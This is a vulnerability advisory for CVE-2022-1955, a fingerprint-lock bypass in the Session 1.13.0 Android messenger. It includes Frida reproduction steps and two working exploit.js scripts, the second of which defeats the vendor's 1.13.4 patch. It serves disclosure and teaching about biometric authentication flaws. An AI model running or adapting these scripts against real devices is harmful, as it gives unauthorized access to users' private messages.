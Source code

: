 ```yaml
---
slug: advisories/tempest/
title: Session 1.13.0 - Improper Access Control (Fingerprint)
authors: Carlos Bello
writer: cbello
codename: tempest
product: Session 1.13.0
date: 2022-06-28 08:00 COT
cveid: CVE-2022-1955
severity: 6.3
description: Session 1.13.0  -  Improper Access Control (Fingerprint)
keywords: Fluid Attacks, Security, Vulnerabilities, Session, Oxen
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Session 1.13.0 - Improper Access Control (Fingerprint) |
| **Code name**         | [Tempest](https://en.wikipedia.org/wiki/Joey_Tempest)  |
| **Product**           | Session                                                |
| **Affected versions** | Version 1.13.0                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-06-28                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | No                                                                                                     |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 6.3                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1955](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1955)                          |

## Description

An attacker with physical access to the victim's device can
bypass the application's fingerprint lock to access user data.
This is possible due to lack of adequate security controls to
prevent dynamic code manipulation.

In android application fingerprint implementations, the
**onAuthenticationSucceded** method is triggered when the
system successfully authenticates a user. Most biometric
authentication implementations rely on this method being
called, without worrying about the CryptoObject. The
application logic responsible for unlocking the application
is usually included in this callback method. This approach
is trivially exploited by connecting to the application
process and calling the **AuthenticationSucceded** method
directly, as a result, the application can be unlocked
without providing valid biometric data. (In short,
fingerprint validation depends on an event and not on
an actual security validation.)

Another common case, occurs when some developers use
CryptoObject but do not encrypt/decrypt data that is
crucial for the application to function properly.
Therefore, we could skip the authentication step
altogether and proceed to use the application.

## Proof of Concept

Attached below is a proof-of-concept video showing the
exploitation of the vulnerability:

![POC-Bypass-Fingerprint-Session](./poc.mp4)

### Steps to reproduce

1. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

2. Now just run this command to hook into the fingerprint listener,
   so that you can dynamically rewrite its implementation to bypass
   the application's protection.

   ```bash
   frida -U 'Session' -l exploit.js --no-pause
   ```

3. Now on your device press the 'recent' button, commonly represented
   by a square. This button opens the recent apps view so that you can
   switch from one open app to another.

4. Log back into Session.

5. As you had left the exploit running with frida, you will notice that
   in less than a second you will enter the application, without even
   having set a valid fingerprint.

## Exploit

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');;

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Mitigation

### Bypass of the patch implemented at Session 1.13.4

After reporting the security flaw, the Session team implemented a [patch](https://github.com/oxen-io/session-android/commit/db92034a8a85ac33d42235e87f6fce9bc9738475).
However, I managed to bypass the patch using the following exploit:

```js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(crypto, null, 0);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const KeyPairGenerator = Java.use('java.security.KeyPairGenerator');
    const Signature = Java.use('java.security.Signature');
    const BiometricSecretProvider = Java.use('org.thoughtcrime.securesms.crypto.BiometricSecretProvider');
    const AuthenticationResult = Java.use('android.hardware.fingerprint.FingerprintManager$AuthenticationResult');
    const FingerprintManager  = Java.use('android.hardware.fingerprint.FingerprintManager');
    const CryptoObject = Java.use('android.hardware.fingerprint.FingerprintManager$CryptoObject');

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload('android.hardware.fingerprint.FingerprintManager$CryptoObject', 'android.os.CancellationSignal', 'int', 'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback', 'android.os.Handler');

    fingerprintManager_authenticate.implementation = (crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // Create Certificate
        var keyGenerator = KeyPairGenerator.getInstance("RSA");
        keyGenerator.initialize(2048);
        var signatureKey = keyGenerator.generateKeyPair();
        var signature = Signature.getInstance("MD5withRSA");
        signature.initSign(signatureKey.getPrivate());
        var crypto = CryptoObject.$new(signature);

        // Create a valid authenticationResult
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);

        // Bypass Validations
        BiometricSecretProvider.verifySignature.implementation = (data, signedData) => {
            return true;
        }

        // Success
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

The reason the bypass succeeded is because the **onAuthenticationSucceeded**
method still depends on a boolean.

If the cryptographic verification works fine, it returns true. However,
the correct thing to do would be for it to retrieve the encryption object
from the parameter and USE this encryption object to decrypt some other
crucial data, such as the session key (by **"session key"** I don't mean the
session application's private key. I simply mean a unique identifier of
the user's session) or a secondary symmetric key that will be used to
decrypt the application data.

This is why in the description of this finding, we have cited the following:

> some developers use CryptoObject but do not encrypt/decrypt data that
> is crucial for the application to function properly. Therefore, we
> could skip the authentication step altogether and proceed to use
> the application.

Currently, in version 1.13.6 the Session team has not implemented a
second patch to prevent the second exploit.

## System Information

* Package Name: network.loki.messenger
* Application Label: Session
* Mobile app version: 1.13.0
* OS: Android 8.0 (API 26)

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page:** <https://github.com/oxen-io/session-android>

**MR page:** <https://github.com/oxen-io/session-android/pull/897>

## Timeline

<time-lapse
  discovered="2022-05-26"
  contacted="2022-05-26"
  replied=""
  confirmed="2022-05-27"
  patched=""
  disclosure="2022-06-28">
</time-lapse>

